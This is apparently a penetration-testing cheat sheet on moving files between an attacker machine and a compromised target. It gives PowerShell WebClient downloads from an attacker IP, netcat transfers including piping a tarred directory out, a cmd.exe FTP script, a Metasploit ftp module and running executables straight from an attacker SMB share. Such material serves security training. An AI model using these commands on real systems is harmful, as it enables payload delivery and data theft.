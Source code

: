 # File Transfer

File can either be transferred by:

* Push file to target
* Have the target to pull file back

## HTTP

**On attacker machine**:

### Apache

copy file to `/var/www/html/`

Start Apache Server

> /etc/init.d/apache2 start

### Python

By running below, current directory will be accessible over HTTP

> python -m SimpleHTTPServer \[port no\]

**On target machine**:

```text
http://your_ip_address:your_port_num/filename
```

If you only have command line access in a Windows machine, use PowerShell's WebClient object:

```text
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://[ip_address]/[file]','[file dest]')"
```

or use cmd.exe to trigger IE

```text
cd Program Files\Internet Explorer start iexplore.exe "http://ip_address/file"
```

## Netcat

### Receiving end
```
nc -l -p 1234 > out.file
```
### Sending end

```
nc -w 3 [destination] 1234 < out.file
```

For faster transfers if both sender and receiver has some basic *nix tools installed, you can compress the file during sending process,

### Receiving end

```
nc -l -p 1234 | uncompress -c | tar xvfp -
```

### Sending end

```
tar cfp - /some/dir | compress -c | nc -w 3 [destination] 1234
```

## FTP

### vsftpd/pytftpd

**On attacker machine**:

`vsftpd` or simply the `pytftpd` library

```text
apt-get install python-pyftpdlib
python -m pyftpdlib -p [port_num]
```

default port is 2121

`-w` can grant the user write access

### Metasploit

Metasploit has an ftp module `auxiliary/server/ftp`

```text
use auxiliary/server/ftp
set FTPROOT /root/shells
exploit
```

Can be kill with:

> jobs -k \[id\]

**On target machine**:

Type it into your cmd.exe

```text
echo open your_ip_address > ftp_commands.txt  
echo your_username >> ftp_commands.txt  
echo your_password >> ftp_commands.txt  
echo binary >> ftp_commands.txt  
echo get your_file >> ftp_commands.txt  
echo bye >> ftp_commands.txt  
ftp -s:ftp_commands.txt
```

## SMB

**On attacker machine**:

> `smbserver.py shareName sharePath` `(e.g. smbserver.py TMP /tmp)`

Check with smbclient to confirm we have got an SMB share up and running

> `smbclient -L [attack machine ip address] --no-pass`

**On target machine**:

> `net view \\\\[attack machine ip address]`

Copy file `copy \\[attack machine ip address]\Sharepath .`

Or execute the file directly from SMB `\\[attack machine ip address]\file.exe`

### Windows to Windows

Create a new local file share:

`NET SHARE work=C:\docs\work /REMARK:"work share" /CACHE:No`

Delete the share:

`NET SHARE work /DELETE`

List the File/Printer shares on a remote computer:

`NET VIEW \\ComputerName`

List all the shares in the domain:

`NET VIEW /DOMAIN`

Join a file share \(Drive MAP\):

`NET USE [driveletter:] \\ComputerName\ShareName`

\(replace \[driveletter:\] with the drive letter you want to assign\).

### Linux to Windows

Backup and modify `/etc/samba/smb.conf`

Add the following configuration

```text
[sharedname]
path = [path to share]
available  = yes
valid users = [current user]
read only = no
browsable = yes
public = yes
writable = yes
```

Add user and password `smbpasswd -a [current user]`

List user `pdbedit -L`

Restart SMB service `service smb restart`

or

`sudo /etc/init.d/samba restart`

Access the IP address of the computer from Windows

